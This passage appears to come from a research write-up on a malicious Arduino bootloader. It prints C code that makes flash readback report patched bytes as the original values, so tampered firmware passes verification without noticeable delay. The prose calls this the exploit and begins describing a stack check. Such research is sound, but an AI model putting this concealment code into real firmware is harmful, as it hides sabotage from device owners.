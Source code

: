 ```c
					//then, if they match the pattern, we need to alter the returned byte so it matches the original
					//A buffer called buff[256] already exists, we'll re-use it here
				
					//prefill first 8 bytes of the read
					for(w = 0; w < 8; w++) {
						if (!flags.rampz) buff[w] = pgm_read_byte_near(address.word + w);
					}
					//ch is a temp variable that already exists, we'll use it as the current "READ/WRITE" position in the buffer. 
					ch = 0;
				
					for (w=0;w < length.word;w++) {		        // Can handle odd and even lengths okay
						if(	buff[ch]      ==0xC0 &&
							buff[(ch+1)%8]==0xEF &&
							buff[(ch+2)%8]==0xD8 &&
							buff[(ch+3)%8]==0xE0 &&
							buff[(ch+4)%8]==0xDE &&
							buff[(ch+5)%8]==0xBF &&
							buff[(ch+6)%8]==0xCD &&
							buff[(ch+7)%8]  ==0xBF) {
						
							buff[ch] = 0xCF; //change it back to the original!
						}
					
						putch(buff[ch]); //write out the buffered character
					
						if (!flags.rampz) buff[ch] = pgm_read_byte_near(address.word + 8);
						address.word++;
						ch++;
						ch = ch%8;	
					}
#else
					if (!flags.rampz) putch(pgm_read_byte_near(address.word));
					address.word++;
#endif
      ...
```

You should be able to see how the exploit code in that snippet works - rather than read each byte at once and echo it, we actually read 8 bytes and then echo the first byte, and then keep reading the bytes 8 addresses out of synch. This keeps it quick! We don't want to introduce large, noticable delays.

Testing it out:
![Arduino IDE no upload error]({{ 'assets/img/flaw3d-bootloader/arduino-done-uploading.png' | relative_url }}){: .mx-auto.d-block :}

Good stuff!

So, now it's time to try and take advantage of the exploit. We need to note two things. Firstly, we don't actually know if this edit succeeded from the perspective of the bootloader ISRs! So what we will do in the bootloader startup code is define a couple of magic values on the edge of that stack that we'll use as a barrier check. We'll use 1776 as the magic value which the bootloader will use to check the independance of those upper memory addresses from the main program.
